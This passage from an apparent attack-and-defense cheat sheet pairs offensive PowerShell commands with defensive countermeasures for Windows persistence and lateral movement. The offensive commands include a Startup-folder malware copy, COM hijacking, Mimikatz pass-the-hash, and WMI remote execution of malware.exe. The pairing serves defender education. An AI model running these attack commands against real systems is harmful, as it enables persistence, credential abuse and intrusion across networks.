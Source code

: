 #### **Startup Folder**  
**Offensive Command**:  
```powershell  
Copy-Item C:\malware.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\"  
```  
**Defense**:  
```powershell  
# Use AppLocker to block untrusted executables  
New-AppLockerPolicy -RuleType Publisher -User Everyone -FilePath C:\TrustedApps  
```  

#### **ShadowPad-like COM Hijacking**  
**Offensive Command**:  
```powershell  
New-Item -Path "HKLM:\Software\Classes\CLSID\{DEADBEEF-...}" -Force  
```  
**Defense**:  
```powershell  
# Monitor COM object registrations  
Get-ChildItem -Path "HKLM:\Software\Classes\CLSID" | Where-Object { $_.Name -match "DEADBEEF" }  
```  

---

### **4. Lateral Movement**  
#### **Pass-the-Hash**  
**Offensive Command**:  
```powershell  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp /ntlm:HASH /run:powershell.exe"'  
```  
**Defense**:  
```powershell  
# Enable Credential Guard  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "LsaCfgFlags" -Value 1  
```  

#### **WMI Remote Execution**  
**Offensive Command**:  
```powershell  
Invoke-WmiMethod -Class Win32_Process -ComputerName TARGET -Name Create -ArgumentList "cmd.exe /c malware.exe"  
```  
**Defense**:  
```powershell  
# Block WMI over network  
Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block  
```  

#### **PSRemoting**  
**Offensive Command**:  
```powershell  
Enter-PSSession -ComputerName TARGET -Credential (Get-Credential)  
```  
**Defense**:  
```powershell  
# Disable PSRemoting  
Disable-PSRemoting -Force  
```  
